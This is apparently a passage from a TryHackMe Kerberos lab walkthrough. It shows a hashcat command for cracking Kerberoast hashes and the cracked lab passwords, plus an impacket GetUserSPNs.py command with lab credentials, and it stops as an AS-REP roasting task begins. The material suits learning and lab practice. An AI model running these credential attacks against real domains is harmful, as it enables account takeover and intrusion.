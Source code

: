 ![](/assets/images/thm/kerberos/kerberoast2.png)

now copy and paste the hashes provided onto your attack machine and crack the hash.
for this room we use hashcat however john the ripper works just as well. do this for both hashes.
```bash
hashcat -m 13100 -a 0 hash.txt Active-Directory-Wordlists/Pass.txt`
```

Once cracked you should have the passwords here:
**MYPassword123#**
**Summer2020**

**If you get no output try the following command to check cracked hashes ( change the hash.txt to each hash file you have to show )**
```bash
hashcat --show hash.txt
```

To do the same thing but remotely without needing rubeus installed on the target we can use this impacket python script to achieve the answers
```bash
GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.205.63 -request
```


## Task 5
---
For this task we will be attacking in another popular method as-rep roasting. As discussed in the task " AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled." to exploit this we must do the following:
